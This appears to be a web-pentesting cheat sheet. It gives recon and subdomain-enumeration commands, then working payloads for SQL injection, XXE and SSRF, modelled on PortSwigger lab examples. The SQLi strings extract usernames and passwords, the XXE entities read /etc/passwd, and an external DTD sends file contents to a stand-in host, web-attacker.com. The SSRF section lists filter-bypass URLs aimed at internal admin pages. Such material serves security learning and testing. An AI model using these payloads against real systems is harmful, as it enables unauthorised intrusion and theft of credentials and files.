 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

### Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

### Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

### SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)

On Oracle, every SELECT query must use the FROM keyword and specify a valid table: `' UNION SELECT NULL FROM DUAL--`

conditional based blind SQL injection:`' union select null from users where username='administrator' and 1 = (SELECT CASE WHEN (length(password)=10) THEN 1/(SELECT 0) ELSE NULL END)--`

### Extracting sensitive data via verbose SQL error messages

Payload: `' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## [](#header-2) XXE

### Exploiting XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///path/to/file"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Exploiting XXE to perform SSRF attacks

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Bypass filtering and validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>1</productId></stockCheck>
```

### Exploiting blind XXE to exfiltrate data out-of-band
malicious external DTD:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Exploiting blind XXE to retrieve data via error messages
malicious external DTD:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Exploiting blind XXE by repurposing a local DTD
if out-of-band interactions are blocked, invoke a DTD file that happens to exist on the local filesystem and repurpose it to redefine an existing entity in a way that triggers a parsing error containing sensitive data:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Locating an existing DTD file to repurpose:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
test a list of common DTD files to locate a file that is present

### XInclude attacks
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE attacks via image upload
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
## [](#header-2) SSRF

### SSRF with blacklist-based input filters
```
http://127.1/%2561dmin
http://2130706433/%2561dmin
http://017700000001/%2561dmin
```

### SSRF with whitelist-based input filters
```
1 - https://expected-host:fakepassword@evil-host
2 - https://evil-host#expected-host
3 - https://expected-host.evil-host
4 - URL-encode characters to confuse the URL-parsing code
```

### Bypassing SSRF filters via open redirection
```
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
